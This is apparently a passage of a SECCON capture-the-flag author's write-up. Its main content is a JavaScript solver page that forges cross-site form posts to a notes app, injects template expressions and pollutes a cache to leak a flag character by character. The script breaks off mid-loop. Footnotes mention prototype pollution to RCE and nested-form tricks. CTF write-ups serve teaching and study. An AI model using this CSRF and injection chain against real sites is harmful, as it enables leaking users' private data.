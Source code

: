 `index.html`:
```html
<body>
  <script>
    const params = new URLSearchParams(location.search);
    const baseUrl = params.get("baseUrl");

    const MAX_FLAG_LENGTH = 16;
    const HEAVY_LEVEL = 20000;

    const sleep = async (msec) =>
      new Promise((resolve) => setTimeout(resolve, msec));

    const createNote = (note) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/create" method="post" target="_blank">
          <input type="text" name="note" value="${note}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const deleteNote = (index) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/delete" method="post" target="_blank">
          <input type="text" name="index" value="${index}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const changeEmoji = (emoji) => {
      const innerHtml = `
        <form action="${baseUrl}/api/emojis/change" method="post" target="_blank">
          <input type="text" name="emoji" value="${emoji}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const polluteCache = async (flagIndex) => {
      const evilNote = `${flagIndex}-{{notes.${flagIndex}}}-{{emoji}}`;
      createNote("dummy");
      await sleep(500);
      createNote(evilNote);
      await sleep(500);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
    }

    const main = async () => {
      const heavyTemplate = "{{x}}".repeat(HEAVY_LEVEL);
      changeEmoji(heavyTemplate);
      await sleep(1000);

      const known = "SECCON{";
      for (let i = known.length; i<MAX_FLAG_LENGTH; i++) {
        await polluteCache(i);
      }
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell